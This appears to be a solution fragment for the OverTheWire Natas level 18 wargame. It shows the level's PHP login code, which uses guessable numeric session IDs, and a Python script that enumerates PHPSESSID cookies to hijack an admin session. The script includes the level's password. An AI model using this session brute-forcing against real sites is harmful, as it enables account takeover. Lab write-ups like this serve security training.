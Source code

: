 ```php
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
```

Python script:

```python
import requests
from requests.auth import HTTPBasicAuth

basic_auth = HTTPBasicAuth('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')

count = 1
max_count = 640

url = "http://natas18.natas.labs.overthewire.org/index.php?debug"


def check_session_id(count: int) -> None:
    cookie = "PHPSESSID=" + str(count)
    headers = {'Cookie': cookie}
    response = requests.get(url, headers=headers,
                            auth=basic_auth, verify=False)

    if "You are logged in as a regular user" not in response.text:
        print(response.text)


if __name__ == '__main__':
    for count in range(max_count + 1):
        check_session_id(count)
```
